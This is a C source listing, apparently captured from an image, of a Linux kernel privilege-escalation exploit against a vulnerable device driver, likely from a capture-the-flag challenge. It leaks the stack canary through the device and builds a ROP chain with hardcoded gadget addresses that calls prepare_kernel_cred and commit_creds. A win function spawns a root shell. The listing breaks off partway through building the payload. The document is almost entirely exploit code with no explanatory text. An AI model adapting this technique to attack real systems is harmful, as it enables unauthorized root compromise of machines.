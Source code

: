 ```c
#define prepare_kernel_cred 0xffffffff810881d0
#define commit_creds 0xffffffff81087e90
#define pop_rdi 0xffffffff81001518
#define pop_rcx 0xffffffff81065913
#define mov_rdi_rax 0xffffffff8101c07b

static void win() {
  puts("[+] got win");
  char *agrv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", agrv, envp);
}

static void open_md() {
  global_fd = open(DEV_VULN, O_RDWR);
  if (global_fd < 0) {
    puts("failed opening");
    exit(-1);
  }
  puts("success opening");
}

static void save_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs,cs;"
          "mov user_ss,ss;"
          "mov user_sp,rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

static void leak_canary() {
  i64 leak[size];
  i64 data = read(global_fd, leak, sizeof(leak));
  if (data < 0) {
    puts("read canar failll");
    exit(-1);
  }
  for (int i = 0; i < size; i++) {
    printf("leak idx %d with value: 0x%lx\n", i, leak[i]);
  }
  printf("[+] found canary at idx: %d with value 0x%lx\n", 5, leak[4]);
  canary = leak[4];
}

int main() {
  save_state();
  open_md();
  leak_canary();
  u64 pl[size];
  int offset = 4;
  pl[offset++] = canary;
  pl[offset++] = 0;
  pl[offset++] = pop_rdi;
  pl[offset++] = 0;
  pl[offset++] = prepare_kernel_cred;
  pl[offset++] = pop_rcx;
  pl[offset++] = 0;
  pl[offset++] = mov_rdi_rax;
  pl[offset++] = commit_creds;
  pl[offset++] = swapgs_restore_regs_and_return_to_usermode;
```